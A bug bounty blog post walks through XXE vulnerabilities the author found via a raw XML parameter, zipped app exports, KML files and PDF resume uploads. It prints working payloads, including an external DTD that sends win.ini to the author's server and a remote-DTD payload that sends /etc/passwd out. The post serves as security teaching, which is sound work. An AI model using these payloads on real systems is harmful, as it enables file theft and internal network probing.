 ```yaml
---
layout: single
title: XXE Case Studies
date: 2021-07-26
classes: wide
header:
  teaser: /assets/images/BB.png
tags:
  - Bug Bounty
  - XXE
  - Penetration Testing
---
```


As it has been some time since my last blog post, I decided I would set aside some time to write one now. The topic of this blog post is inspired by a bug I found earlier this morning on a bug bounty program.

## XML External Entity (XXE) Attacks
I have always been fascinated by XXE attacks, and in this blog, I will outline some of the checks I perform when bug bounty hunting to identify and exploit these vulnerabilities. 

While XXE vulnerabilities are rare, they are generally quite easy to exploit. Additionally, they almost always result in a high or critical severity. There are many blogs and resources that talk about what an XXE vulnerability is, so instead I will focus more on examples that I have seen. Unfortunately, I will not be able to share complete walkthroughs as many of these bugs are undisclosed.

## Case Study #1: strXML Parameter

When hunting bugs with Burp Suite, I utilize the extension [Burp Bounty]( https://github.com/wagiro/BurpBounty). This allows me to create custom passive and active profiles. One of the passive profiles I utilized a while back would look for XML in every HTTP request. Upon finding it, the extension would create an issue for me to investigate manually.

![](/assets/images/XXE/1.png)  

This alerted me to quite a fun parameter one day while bug bounty hunting. A recreation of the request is shown below.

![](/assets/images/XXE/2.png)  

That’s right, the `strXML` parameter simply took raw XML. Interestingly enough the bulk of it wasn’t even URL encoded! Not sure how this was a validly formatted HTTP request.
Sadly, I was only able to escalate this finding to an internal port scan via SSRF with a payload similar to the following:
```xml
strXML=<?xml version%3D"1.0" encoding%3D"ISO-8859-1"?>
<!DOCTYPE testingxxe [<!ENTITY xxe PUBLIC "xxe" "http://localhost:21/" >
]> 
    <data>
        <xxx>
            <xxx>194147</xxx>
        </xxx>
        <identity>&xxe;</identity>
    </data>

```
Then Burp Intruder was used to iterate through the top 1000 ports. The open ports returned a different content-length than closed ports.

## Case Study #2: XXE via Proprietary Filetype

I stumbled upon this next XXE completely by accident. The web site had functionality that allowed users to build “apps”. Apps could be exported to a propriety file type that I did not recognize. Upon running `strings` on one of these files I discovered it was a zip file. Upon unzipping the file, I was greeted by a beautiful site.

![](/assets/images/XXE/3.png)  

Next, I replaced the contents of one of the XML files with the following XXE payload.
```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE cinzinga SYSTEM "http://poc.cinzinga.com/test.dtd">
<cinzinga>&e1;</cinzinga>
```

And the contents of `/test.dtd` hosted on my web server are shown below:
```
<!ENTITY % p1 SYSTEM "file:///windows/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://poc.cinzinga.com/?x=%p1;'>">
%p2;
```

Upon zipping the folder back up, and importing this app, I was greeted with the contents of `C:\Windows\win.ini` sent to my web server.

## Case Study #3: XXE via KML File
I have encountered a number of sites that take more obscure XML file types as input. Multiple times, I have achieved XXE via KML. KML is a type of XML that is specifically used for maps and geographic data.

To exploit these file uploads, I simply download [a sample KML file]( https://developers.google.com/kml/documentation/KML_Samples.kml) and append an XXE payload in the second line.

To exploit the one I identified today, I made use of a great tool developed by a close friends [Tib3rius](https://twitter.com/0xTib3rius). The tool can be found [here]( https://github.com/WhiteOakSecurity/Dynamic-DTD).

This app is run with the following command:
```
flask run -p <port> -h <interface-ip>
```
And triggered with the corresponding payload:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<server-ip>malicious.dtd?ext=file:///etc/passwd"> %xxe;]>
```

This promptly resulted in the contents of `/etc/passwd` send to my web server.

![](/assets/images/XXE/4.png)  


## Case Study #4: XXE via PDF File

Thus far in my bug bounty career, I have exploited XXE via PDF upload twice. In both cases, the intended functionality was a Resume upload on a careers subdomain. I can only assume that some backend software was scanning the PDFs to extract key information. 

To generate these PDFs, I utilize [this]( https://github.com/StefanMichielse/generate_xxe_payloads) project on GitHub.

I utilize the following command to generate a XXE PDF payload template.
```
ruby oxml_xxe.rb --poc pdf -i 192.168.0.1:8000
```

![](/assets/images/XXE/5.png)  

Next, we can open up the output PDF in a text editor to get a better idea of where the payload is rendered. We can see that the XXE payload is inserted on line 27.
![](/assets/images/XXE/6.png)  

Personally, the PDF payload I utilize is shown below. I have edited the default payload slightly. 

![](/assets/images/XXE/7.png)  

The external dtd is the same as shown above in this blog.

```
<!ENTITY % p1 SYSTEM "file:///windows/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://poc.cinzinga.com/?x=%p1;'>">
%p2;
```

## Case Study #?: XXE via Excel File

While I have not yet obtained XXE via Word or Excel file, it is something I have a payload for and routinely check. There is a great blog [here](https://www.4armed.com/blog/exploiting-xxe-with-excel/) that outlines the steps to develop an Excel XXE payload.


## Conclusion
While this article was brief, I hope it served to highlight some XXE vulnerabilities that I have exploited in the wild. While the bug type is not common, I have reported approximately a dozen XXE vulnerabilities in my bug bounty career. This number certainly warrants adding XXE checks to your arsenal when assessing a web app’s security.
